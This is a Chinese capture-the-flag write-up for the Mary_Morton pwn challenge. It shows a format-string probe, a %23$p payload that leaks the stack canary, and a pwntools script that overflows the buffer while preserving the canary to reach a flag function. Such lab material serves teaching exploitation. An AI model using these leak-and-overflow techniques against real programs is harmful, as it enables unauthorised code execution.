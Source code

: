 ***
## 题目信息
攻防世界：Mary_Morton
***
## 题解
入手checksec和file一下
![e9c8a536a3c6d3bfe47ed0463a59b13b.png](../_resources/e9c8a536a3c6d3bfe47ed0463a59b13b-1.png)
运行测试
![92c4c523ee72c409810d6b5327227ee7.png](../_resources/92c4c523ee72c409810d6b5327227ee7-1.png)
根据回显和提示，猜测应该是先用格式化字符串漏洞爆出canary的值，然后用栈溢出拿shell
首先先尝试`AAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p`来爆出输入字符在参数中的位置
![512263c1300bada4d1f0e5fff5ddcb06.png](../_resources/512263c1300bada4d1f0e5fff5ddcb06-1.png)
从图中可以看出，输入字符在第6个参数
把程序进行逆向解析
![5d3919b1c940c60f1681f226ca0b79dc.png](../_resources/5d3919b1c940c60f1681f226ca0b79dc-1.png)
输入的字符占17个字节，那么canary的位置就是第17+6=23个参数的位置
所以可以使用`%23$p`的payload来爆破canary的值，之后利用栈溢出，将canary插入到payload当中就可以
下面是exp
```
from pwn import *

context.log_level = 'debug'
p = process('Mary_Morton')

flag = 0x004008da

p.recv()
p.sendline(b'2')
#gdb.attach(p, 'b *0x004008f6')
#pause()
payload = b'%23$p'
p.sendline(payload)
p.recvuntil('0x')
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
print(hex(canary))
p.sendline(b'1')
payload = b'A' * 0x88 + p64(canary) + b'A' * 0x8 + p64(flag)
p.send(payload)
p.interactive()
```
嘿嘿
***
## 总结
1、绕过canary可以通过格式化字符串漏洞来爆破出canary的值方式
2、对于python3中16进制地址的获取和转化，可以通过以下代码来进行
```
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
```